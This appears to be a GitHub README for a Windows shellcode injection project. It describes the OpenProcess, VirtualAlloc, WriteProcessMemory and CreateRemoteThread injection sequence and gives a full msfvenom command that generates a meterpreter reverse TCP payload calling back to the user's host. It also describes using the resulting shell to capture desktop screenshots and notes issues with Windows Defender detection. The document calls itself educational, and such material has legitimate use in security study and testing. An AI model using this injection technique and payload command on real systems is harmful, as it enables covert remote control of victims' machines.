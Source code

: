 # ShellCodeInjectionWin10
Simple shell injection using [win32 API](https://learn.microsoft.com/en-us/windows/win32/apiindex/windows-api-list). Using Windows API functions to inject a shell code for educational purposes.

## Getting Started
This guide walks through the steps required to inject shellcode into a Windows process.

### 1. Attaching to a Process
You need to attach tag onto an existing process or create a new one. This step involves opening a handle to a process using the Windows [`OpenProcess()`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) function. 

### 2. Allocating Memory
Allocate enough memory within the target process to fit your shellcode. This can be achieved with the [`VirtualAlloc()`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) function.

### 3. Injecting Shellcode
Now write your shellcode into the target process's memory space that you just allocated. This is done using the [`WriteProcessMemory()`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) function.

### 4. Executing Shellcode
Lastle is to execute the shellcode you injects. Create a new thread within the target process that points to your shellcode and deliver your payload with the [`CreateRemoteThread()`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) function.

## Shellcode Generation
The reverse shellcode I used was generated using Metasploit's `msfvenom` tool with the following command:

```
msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST={Your IP Address} LPORT={Your Port} EXITFUNC=thread -f c --var-name=shellCode
```
Each parameter in the command is explained below:

- '--platform windows' specifies the target platform.
- '--arch x64' sets the architecture to 64 bit.
- '-p windows/x64/meterpreter/reverse_tcp' telling which payload to use. In this case it is a reverse TCP meterpreter shell.
- 'LHOST' and 'LPORT' are placeholders for your IP address and chosen port, directing the reverse shell's connection back to you.
- 'EXITFUNC=thread' ensures the payload exits cleanly by terminating the thread.
- '-f c' outputs the payload in C format.
- '--var-name=shellCode' names the variable holding the shellcode as shellCode.

## Practical Applications
Running this script against the selected process executes the shellcode within a new thread, activating that reverse shell we put in. Through this reverse shell you can run whatever you please, like using the `screenshot` command for real time pictures of the desktop.

## Warning
- This script is purely for educational and research purposes, no unethical use what so ever.
- It will not execute on a standard Windows system without modifications to the Windows Defender for the shellcode signature will be instantly detected and stopped.
- Also be sure to check that your compiler is running the same bit as the process you are taking on. For example, I had error 5 (ACCESS DENIED), for some time due to the fact my compiler was running 32 Bit and not 64 bit, which is what the process application was running. Just be sure that both are matching, otherwise they will not compile error-free.
